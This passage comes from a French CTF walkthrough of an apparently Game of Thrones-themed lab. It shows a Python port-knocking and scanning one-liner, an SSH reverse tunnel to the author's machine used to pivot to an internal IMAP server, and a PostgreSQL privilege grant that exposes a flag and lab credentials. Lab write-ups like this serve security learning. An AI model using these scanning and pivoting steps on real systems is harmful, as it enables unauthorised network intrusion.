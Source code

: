 Au lieu d'uploader Nmap et ses nombreuses dépendances j'ai scanné les ports depuis le conteneur avec un one-liner Python :  

```python
[time.sleep(.005) or socket.socket().connect_ex(("192.168.0.3", port)) for port in (3487,64535,12345,143)]
[111, 111, 111, 0]
```

La dernière valeur (0) nous indique que la connexion au port 143 s'est bien ouverte après avoir tapé sur les autres ports :-)   

Dialoguer avec le serveur IMAP depuis un shell aussi basique n'est pas agréable, heureusement je peux forwarder le port jusqu'à mon système via ssh (à uploader préalablement sur le système) :  

```bash
ssh -R 9999:172.21.0.1:143 -fN devloop@192.168.0.16
```

Pour autant le serveur IMAP n'a pas de bannière donnant le moindre indice :( Clairement j'ai loupé une information quelque part.  

![And now what?](https://raw.githubusercontent.com/devl00p/blog/master/images/GoT/meme9.jpg)

N'étant pas un expert en PostgreSQL je suis retourné sur le service et j'ai essayé d'autres commandes :  

```plain
mountainandthevale=> \d
                      List of relations
 Schema |            Name            |   Type   |   Owner
--------+----------------------------+----------+------------
 public | aryas_kill_list            | table    | postgres
 public | aryas_kill_list_id_seq     | sequence | postgres
 public | braavos_book               | table    | postgres
 public | eyrie                      | table    | postgres
 public | eyrie_id_seq               | sequence | postgres
 public | flag                       | view     | robinarryn
 public | popular_wisdom_book        | table    | postgres
 public | popular_wisdom_book_id_seq | sequence | postgres
(8 rows)

mountainandthevale=> select * from flag;
ERROR:  permission denied for relation flag
```

Ohoh ! Il y avait une *view*... à voir. Yara (Greyjoy) peut être une documentation à potasser :D  

Un petit *grant select on flag to robinarryn* plus tard on obtient dans la table flag un gros base64 à décoder :  

> Nice! you conquered the Kingdom of the Mountain and the Vale.  
> 
> This is your flag: bb3aec0fdcdbc2974890f805c585d432.  
> 
> Next stop the Kingdom of the Reach.  
> 
> You can identify yourself with this user/pass combination: olennatyrell@7kingdoms.ctf/H1gh.Gard3n.powah,  
> 
>  but first you must be able to open the gates
